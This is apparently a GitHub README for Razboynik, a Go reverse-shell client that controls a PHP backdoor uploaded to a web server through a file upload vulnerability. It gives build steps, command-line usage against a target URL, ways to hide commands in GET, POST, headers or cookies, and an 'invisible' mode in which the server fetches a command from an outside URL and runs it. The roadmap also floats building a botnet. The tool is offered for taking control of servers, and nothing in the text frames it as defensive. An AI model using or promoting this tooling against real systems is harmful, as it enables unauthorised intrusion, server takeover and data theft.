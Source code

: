 #Razboynik - разбойник
Razboynik is the FurezLegacy project on Go

##Main Goal ?
Razboynik wants to be the best reverse shell based on PHP backdoor

##FurezLegacy ?
FurezApi Framework was a little PHP website that exploit PHP backdoor.
It allow you to exploit file upload vulnerability on web server.
The main goal was pretty simple : Test every possibilities of infected files to upload, and then, if the upload is successful:

- giving you a user interface to manage datas
- allowing you to do what you want on server

Show the folder structure of the website ? Show a specific file ? Zip content ? Download content ? Upload or even delete ? If the API succeed to be upload on the server. You're the new king of this one!

##Why Razboynik ?
Where FurezApi Framework and later FurezExploit (C++ brother) were boring and long to setup and install, Razboynik learnt about those mistakes and fix it. 
Razboynik is giving you a better interface to handle the server (nothing better than shell). Easier to install, faster to use, better to customize and hot new functionnalities:
- Encoding all the request (Crypto on the way)
- Infected requests by GET, POST, Headers or Cookies
- Logs every result in file
- Better interface
- Easy to plug bundle and plugin thanks to modules
- Proxied tunnel (on the way)

##Binary
(Not available yet)

Binaries for differents platforms (Linux, Windows and soon or later Mac) will be available in the `./bin` directory. So if you don't want to build the application by yourself you can use it.

On Windows launch: `./bin/razboynik.exe`
On linux (in your terminal): (root directory) `./bin/razboynik`

##Build locally
###Requirements
These requirements are necessary only if you want to build the app:
- `Golang`

###Dependencies
These dependencies will be install:
- `eatbytes/razboy` (Business logic and core of razboynik)
- `urfave/cli` (Usefull utility to handle flag and parse command)
- `chzyer/readline` (Implementation of readline to loop on command)
- `fatih/color` (Great colors to push on terminal)
- `golang library` (fmt, strings, buffer, etc...)

###Installation
Instructions to build the app:
- `git clone https://github.com/EatBytes/razboynik.git` (or SSH if you want)
- `cd razboynik`
- `go get`
- `go build`

(Makefile on the way)

##Demo
[![asciicast](https://asciinema.org/a/92281.png)](https://asciinema.org/a/92281)

Let's suppose you find a file upload vulnerability in a website and you upload the script available in `res/backdoor` folder.
Now the url of your script could be (as example) : http://{website}/uploads/script.php

With this statement we can use razboynik as it follow :
- `./razboynik run -u http://{website}/uploads/script.php`
or (shortcut)
- `./razboynik r -u http://{website}/uploads/script.php`

If you want to change the parameter sent, add -p flag and precise it. Like : `./razboynik r -u ... -p myParameter`.
By default the parameter is "razboynik". Parameter is the name of the field or header or cookie (depends on method) sent to server. If the method is GET, razboynik will simply add at the end of the url = ?razboynik={request}.

If you want to change the method, add -m flag as : `./razboynik r -u ... -m POST`.
By default, method is set to GET. You have the choice between : GET, POST, HEADER (evil request will be set in headers), COOKIE.

For more option you can add -h flag. Or type `./razboynik help`.

##API
You will find the API of all the business logic in the appropriate repository `razboy`

###run
Run a reverse shell with specified configuration

OPTIONS: 
- `-u, --url`: (string) Url of the target. Ex: `-u http://localhost/script.php`
- `-m, --method`: (string) Method to use. Ex: `-m POST` (default: "GET")
- `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
- `-s, --shellmethod`: (int) Shellmethod to use. Ex: `-s 0` (default: 0) [0 => system(), 1 => shell_exec()]
- `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: `FromRussiaWithLove<3`)
- `-r, --raw`: (bool) If set, send the request without base64 encoding
- `-c, --crypt`: (Not available)

###generate
(Not available yet)

###scan
Scan a website to identify what shell method and method works on it.

OPTIONS:
- `-u, --url`: (string) Url of the target. Ex: `-u http://localhost/script.php`
- `-p, --parameter`: (string) Parameter to use. Ex: `-p test` (default: "razboynik")
- `-k, --key`: (string) Key to unlock optional small protecion. Ex: `-k keytounlock` (default: `FromRussiaWithLove<3`)

###invisible
Execute a raw command available at an url (referer). Ex: http://website/cmd.txt point to `'echo 1;'` in body, then I can do : 
- `-u ... -r http://website/cmd.txt`

OPTIONS:
- `-u, --url`: (string) Url of the target. Ex: `-u http://localhost/script.php`
- `-r, --referer`: (string) Url that the server will call to get the cmd to execute. Ex: `-r http://website.com/cmd-i-want-to-execute.txt`

###encode / decode
Encode or decode string.

Ex: encode hello => aGVsbG8=
    decode aGVsbG8= => hello

##Roadmap
###1.5.0
- Raw request
- Better error in razboy (core)
- Add more information when run fail
- Add cookie method
- Implement optional key protection
- Add base64 encoding and decoding to root
- Add invisible method

###1.6.0
- Add web server (FurezApi legacy)
- Add `./bin` folder with binaries
- More documentation
- Add asciinema video (in progress)
- Create a botnet ? Handle multiple server at the same time
- Config file
- Proxied tunnel
- Crypto
